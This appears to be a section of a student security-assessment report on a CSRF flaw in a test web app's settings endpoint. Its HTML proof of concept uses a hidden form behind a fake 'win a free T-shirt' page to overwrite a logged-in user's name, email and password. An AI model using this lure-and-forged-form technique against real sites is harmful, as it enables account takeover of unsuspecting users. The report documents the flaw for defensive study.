         CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. </p>

#### **Description**
    
When a user is logged in, they can change their personal information, such as their name, email and password. However, there is no CSRF token, meaning an attacker can perform a CSRF attack to change the user's information.

![GIF CVE 8](/analysis/gifs/CVE8.gif)

#### **Demonstrations**
To test if our application was vulnerable to CSRF attacks, we developed a simple website with a hidden form that, if the user pressed the button "Click here to win" the hidden form would be submited and sent to the endpoint indicated, in this case it would be sent to the endpoint settings to change the user's settings.
```html
 <form hidden id="hack" target="csrf-frame" action="http://localhost:5000/settings?user=1" method="POST" autocomplete="off">

        <input type="text" class="form-control" name="first_name" id="first_name" placeholder="First Name" value="Totally">

        <input type="text" class="form-control" name="last_name" id="last_name" placeholder="Last Name" value="Hacked">

        <input type="text" class="form-control" name="username" id="username" placeholder="Username" value="zzz">

        <input type="text" class="form-control" name="email" id="email" placeholder="Email" value="Sorry Bro">

        <input type="password" class="form-control" name="password" id="password" placeholder="Password" value="you've done it right this time">

        <input type="text" class="form-control" name="description" id="description" placeholder="Description" value="Nice One">

        <input type="text" class="form-control" name="phone_number" id="phone_number" placeholder="Phone Number" value="432785198">

    </form>
    <div class="blur">
        <div class="contain">
            <h1>Win a free DETI T-Shirt</h1>
            <h3 style="margin-bottom: 10px;">Win a free DETI T-Shirt without having to pay for it!</h3>
            <img src="/app_sec/static/products/1.png" style="width: 300px; margin-left: 250px; margin-bottom: 30px;">
            <button onclick="hack();" type="button" id="button" class="text-center btn btn-success"> Click Here to Win!</button>
            <br />

            <div id="warning"></div>
        </div>
    </div>
```
